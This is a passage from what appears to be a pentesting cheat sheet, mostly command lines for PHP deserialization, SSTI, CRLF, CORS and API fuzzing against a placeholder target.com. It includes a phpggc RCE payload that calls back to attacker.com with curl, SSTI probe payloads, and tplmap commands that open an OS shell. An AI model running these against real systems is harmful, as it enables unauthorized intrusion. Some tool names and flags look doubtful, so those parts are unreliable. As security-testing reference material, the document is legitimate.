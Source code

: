     :- Generate PHP deserialization payload
    phpggc Guzzle/FW1 RCE system "curl http://attacker.com/php_hit" > php_payload.phar 
    (These payloads would then be sent in appropriate request parameters/bodies)


#### 3.4.8 Server-Side Template Injection (SSTI)
    :- (Manual testing with language-specific payloads is common)
    Example Payloads:
    {{ 7*7 }} (Jinja2/Twig)
    <%= 7*7 %> (Ruby ERB)
    ${7*7} (Java EL, Freemarker)
    #{7*7} (Java JSF)
    @(7*7) (Razor .NET)
    
    :- Automated SSTI detection and exploitation
    tplmap -u "https://target.com/page?name=FUZZ" --os-shell
    
    :- Test POST parameter
    tplmap -u "https://target.com/search" -d "query=FUZZ" --os-cmd "whoami" 


#### 3.4.9 CRLF Injection
    crlfuzz -u "https://target.com" -p 10

#### 3.4.10 CORS Misconfigurations
    corsy -u https://target.com

## 4. API TESTING


### 4.1 REST API Testing
    :- API endpoint brute force, 10 extensions deep
    kiterunner -w api_routes.txt -u https://target.com/api -A discovery -x 10 -o kiterunner_scan.txt 
    
    :- Scan using Kiterunner's format
    kiterunner scan -U https://api.target.com -w routes-large.kite --max-api-depth 5 -o kite_depth5.txt 
    
    :- Recon mode on a list of hosts
    kiterunner recon -A assetnote_wordlist/kiterunner/routes-large.kite -s hosts.txt -o kite_recon.txt 

    :- (arjun used previously for general param discovery, also applicable here)    
    :- API GET parameter discovery
    arjun -u https://api.target.com/v1/users --include='application/json' -m GET -o arjun_api_get.json 
    
    :- API POST w/ Auth
    arjun -u https://api.target.com/v1/items -m POST -H "Authorization: Bearer XYZ" -o arjun_api_post_auth.json 
    ------
    kiterunner -w api_wordlist.txt -u https://target.com/api
    kiterunner -w api_wordlist.txt -u https://target.com/api -A discovery
    arjun -u https://target.com/api --include='application/json'
    postman-smuggler -r request.txt
    postman-smuggler -r request.txt -o smuggled_requests
    crAPI -u https://target.com/api -t 20 -o crapi_report.html
    restler fuzz --grammar_file api_spec.json --dictionary words.txt
    ------
    kiterunner -w api_endpoints.txt -u https://target.com/api -A discovery,security -o kiterunner_full.txt -threads 30
    kiterunner -w swagger.json -u https://target.com/api -A all -o kiterunner_swagger.txt
    arjun -u https://target.com/api --include='application/json','application/xml' -o arjun_api_all.json -m all -t 20
    arjun -u https://target.com/api/users/{id} --method PUT --params '{"username":"test","email":"test@example.com"}' -o arjun_put.txt
    postman-smuggler -r request.txt -o smuggled_requests_all -v
    postman-smuggler -r malicious_request.txt -o smuggled_malicious
    crAPI -u https://target.com/api -t 30 -o crapi_report_full.html -deep